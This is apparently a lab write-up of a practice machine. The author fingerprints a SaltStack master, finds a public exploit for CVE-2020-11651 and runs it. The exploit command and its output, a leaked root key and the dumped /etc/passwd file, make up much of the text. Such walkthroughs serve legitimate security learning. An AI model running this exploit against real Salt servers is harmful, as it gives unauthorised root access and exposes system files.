 Still this one is not useful when going to the web pages nothing interesting but two pages:
![Pasted image 20250416152255](https://github.com/user-attachments/assets/d238a373-eb58-42a4-8b98-eaaf566ac537)



and page /användare :
![Uploading Pasted image 20250416152402.png…]()

Googling the content of page on
![Pasted image 20250416152444](https://github.com/user-attachments/assets/bb914347-d35f-413c-bc00-0f7865211cee)
e:


found this is a saltstack and then searched it for exploits:
![Pasted image 20250416152621](https://github.com/user-attachments/assets/135e7e7b-2641-4e81-b690-edbde1bd9990)


so there is a existing exploit for this vulnerability:
![Pasted image 20250416232408](https://github.com/user-attachments/assets/61ac2634-3591-4082-804f-41d5b83d955a)



doing some research figured neet to install python3-salt 
sudo pipx install salt
and then find the options to use the exploit:
python3 exploit.py -m <master ip> -p <master port> [other options]
Had problem with salt funcion and it's dependencies so took hell of a time to realise that this will not work and won't get install with pip, pip3 or even pipx installation won't work but I figured it will work using uv.

uv run 48421.py -m 192.168.217.62 --read /etc/passwd    
[!] Please only use this script to verify you have correctly patched systems y  
ou have permission to access. Hit ^C to abort.  
/home/enzy/Documents/offsecPGP/twiggy/.venv/lib/python3.13/site-packages/salt/  
transport/client.py:28: DeprecationWarning: This module is deprecated. Please  
use salt.channel.client instead.  
 warn_until(  
[+] Checking salt-master (192.168.217.62:4506) status... ONLINE  
[+] Checking if vulnerable to CVE-2020-11651... YES  
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skN  
XpMmON4009lLtSZ9DRlk=  
[+] Attemping to read /etc/passwd from 192.168.217.62  
root:x:0:0:root:/root:/bin/bash  
bin:x:1:1:bin:/bin:/sbin/nologin  
daemon:x:2:2:daemon:/sbin:/sbin/nologin  
adm:x:3:4:adm:/var/adm:/sbin/nologin  
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin  
sync:x:5:0:sync:/sbin:/bin/sync  
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown  
halt:x:7:0:halt:/sbin:/sbin/halt  
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin  
operator:x:11:0:operator:/root:/sbin/nologin  
games:x:12:100:games:/usr/games:/sbin/nologin  
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin  
nobody:x:99:99:Nobody:/:/sbin/nologin  
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin  
dbus:x:81:81:System message bus:/:/sbin/nologin  
polkitd:x:999:998:User for polkitd:/:/sbin/nologin  
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin  
postfix:x:89:89::/var/spool/postfix:/sbin/nologin  
chrony:x:998:996::/var/lib/chrony:/sbin/nologin  
mezz:x:997:995::/home/mezz:/bin/false  
nginx:x:996:994:Nginx web server:/var/lib/nginx:/sbin/nologin  
named:x:25:25:Named:/var/named:/sbin/nologin
